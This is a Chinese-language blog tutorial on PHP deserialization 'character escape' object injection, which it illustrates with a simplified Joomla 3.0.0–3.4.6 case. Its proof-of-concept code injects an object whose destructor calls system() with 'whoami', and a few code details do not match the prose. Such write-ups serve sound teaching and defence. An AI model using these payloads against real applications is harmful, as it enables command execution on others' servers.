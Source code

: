 ```yaml
---
layout: post
title: 'PHP字符逃逸'
subtitle: 'PHP字符逃逸导致的对象注入'
date: 2021-07-12
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: jekyll 前端开发 设计
---
```

### 漏洞产生原因

序列化的字符串在经过过滤函数不正确的处理而导致对象注入，目前看到都是因为过滤函数放在了serialize函数之后，要是放在序列化之前应该就不会产生这个问题

	?php
	function filter($string){
	  $a = str_replace('x','zz',$string);
	   return $a;
	}
	
	$username = "tr1ple";
	$password = "aaaaax";
	$user = array($username, $password);
	
	echo(serialize($user));
	echo "\n";
	
	$r = filter(serialize($user));
	
	echo($r);
	echo "\n";
	
	var_dump(unserialize($r));
	$a='a:2:{i:0;s:6:"tr1ple";i:1;s:5:"aaaaa";}i:1;s:5:"aaaaa";';
	var_dump(unserialize($a));

php特性：

	1.在反序列化时，底层代码是以";"作为字段的分隔，以"}"作为结尾（字符串除外），并且是根据长度判断内容的
	
	2.对类中不存在的属性也会进行反序列化

以上代码就明显存在一个问题，即从序列化后的字符串中明显可以看到经过filter函数以后s:6对应的字符串明显变长了

并且如果对于a:2:{i:0;s:6:"tr1ple";i:1;s:5:"aaaaa";}i:1;s:5:"aaaaa"; 这种字符串而言，也能够正常反序列化，说明php在反序列化的时候只要求一个反序列化字符串块合法即可，当然得是第一个字符串块

以以上代码为例，如果能够利用filter函数这种由一个字符变为两个字符的特性来注入想要反序列化后得到的属性，使其可以逃逸出更多可用的字符串，那么我们就能反序列化得到我们想要的属性

比如此时我们想要让反序列化后第二个字符串为123456，此时我们的payload如果和之前的username长度为a，则filter处理以后可能username就会变成a，此时我们的payload变成了新的注入的属性，此时反序列化后就会得到我们想要的结果，比如a:2:{i:0;s:6:"tr1ple";i:1;s:6:"123456";}是我们想要达到的效果，此时我们想要注入的payload明显为：

";i:1;s:6:"123456";}

可以得到其长度为20

此时我们已经知道过滤的规则为x->yy，即注入一个x可以逃逸出一个字符的空位，那么我们只需要注入20个x即可变成40个y，即可逃逸出20个空位，从而将我们的payload变为反序列化后得到的属性值

	$username = 'tr1plexxxxxxxxxxxxxxxxxxxx";i:1;s:6:"123456";}'; //其中红色就是我们想要注入的属性值 
	$password="aaaaa";
	$user = array($username, $password);
	echo(serialize($user));
	echo "\n";
	
	$r = filter(serialize($user));
	
	echo($r);
	echo "\n";
	var_dump(unserialize($r));

可以看到此时注入属性成功，反序列化后得到的属性即为123456

### 实例分析

joomla3.0.0-3.4.6 对象注入导致的反序列化,以下为参考别人的简易化核心漏洞代码

	<?php
	class evil{
	    public $cmd;
	
	    public function __construct($cmd){
	        $this->cmd = $cmd;
	    }
	
	    public function __destruct(){
	        system($this->cmd);
	    }
	}
	
	class User
	{
	    public $username;
	    public $password;
	
	    public function __construct($username, $password){
	        $this->username = $username;
	        $this->password = $password;
	    }
	
	}
	
	function write($data){
	    $data = str_replace(chr(0).'*'.chr(0), '\0\0\0', $data);
	    file_put_contents("dbs.txt", $data);
	}
	
	function read(){
	    $data = file_get_contents("dbs.txt");
	    $r = str_replace('\0\0\0', chr(0).'*'.chr(0), $data);
	    return $r;
	}
	
	if(file_exists("dbs.txt")){
	    unlink("dbs.txt");  
	}
	
	$username = "tr1ple";
	$password = "A";
	$payload = '";s:8:"password";O:4:"evil":1:{s:3:"cmd";s:6:"whoami";}'; write(serialize(new User($username, $password))); var_dump(unserialize(read()));

在这里如果想要通过注入对象来实现反序列化则必须在外部对象内进行注入存在的属性，不能在其外部，否则php将不会进行我们注入恶意对象的反序列化

例如此时因为反序列化读取的时候将会将六位字符\0\0\0替换成三位字符chr(0)*chr(0),因此字符串前面的s肯定是固定的，那么s对应的字符串变少以后将会吞掉其他属性的字符，那么如果我们精心算好吞掉的字符长度，并且能够控制被吞掉属性的内容，那么就能够注入对象，从而反序列化其他类

比如如上所示，此时我们要注入的对象为evil，此时username和password的值我们可控，那么我们可以在username中注入\0，来吞掉password的值，比如

	<?php
	$a='\0\0\0';
	echo strlen($a);
	$b=str_replace('\0\0\0', chr(0).'*'.chr(0), $a);
	echo strlen($b);


所以此时首先确定我们要吞掉的字符的长度

O:4:"User":2:{s:8:"username";s:6:"tr1ple";s:8:"password";s:4:"1234";}

正常情况下我们要吞掉 ";s:8:"password";s:4:" 为22位

但是因为注入的对象payload也在password字段，并且长度肯定是>=10的，因此s肯定是两位数，因此这里为22+1=23位字符

因为是6->3，因此每次添加一组\0\0\0能多吞掉3个字符，因此需要肯定都是3的倍数

因此我们假如这里构造username为\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0 

则经过read函数处理后长度将变为24

即此时能够多吞掉24个字符，为了不让其吞掉payload，我们可以填充1位字符A，即令password的值为A+payload即可

	<?php
	class evil{
	    public $cmd;
	
	    public function __construct($cmd){
	        $this->cmd = $cmd;
	    }
	
	    public function __destruct(){
	        system($this->cmd);
	    }
	}
	
	class User
	{
	    public $username;
	    public $password;
	
	    public function __construct($username, $password){
	        $this->username = $username;
	        $this->password = $password;
	    }
	
	}
	
	function write($data){
	    $data = str_replace(chr(0).'*'.chr(0), '\0\0\0', $data);
	    file_put_contents("dbs.txt", $data);
	}
	
	function read(){
	    $data = file_get_contents("dbs.txt");
	    $r = str_replace('\0\0\0', chr(0).'*'.chr(0), $data);
	    return $r;
	}
	
	if(file_exists("dbs.txt")){
	    unlink("dbs.txt");  
	}
	
	$username = "\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0";
	$password = "A";
	$payload = '";s:8:"password";O:4:"evil":1:{s:3:"cmd";s:6:"whoami";}'; $shellcode=$password.$payload; write(serialize(new User($username, $password))); var_dump(unserialize(read()));

执行结果如上图所示，将成功反序列化password属性所对应的值，其值即为我们注入的对象，整个过程也容易理解，就是吞掉后面的属性来注入属性，那么达到攻击有以下要求：

> 1.相邻两个属性的值是我们可以控制的

> 2.前一个属性的s长度可以发生变化，变长变短都可以，变短的话可以吞掉后面相邻属性的值，然后在相邻属性中注入新的对象，如果边长则可以直接在该属性中注入对象来达到反序列化

比如XNUCA2018 hardphp就考察了一个这个相关的trick

这里就出现了用前面的data在反序列化时向后吞一位字符，从而可以导致吞掉后面的普通用户的username字段，而在username字段可以放上我们想要伪造的username，从而达到伪造session的目的

参考

！[https://www.cnblogs.com/magic-zero/p/9525842.html](https://www.cnblogs.com/magic-zero/p/9525842.html)

![https://github.com/wonderkun/CTF_web/tree/master/web400-12](https://github.com/wonderkun/CTF_web/tree/master/web400-12)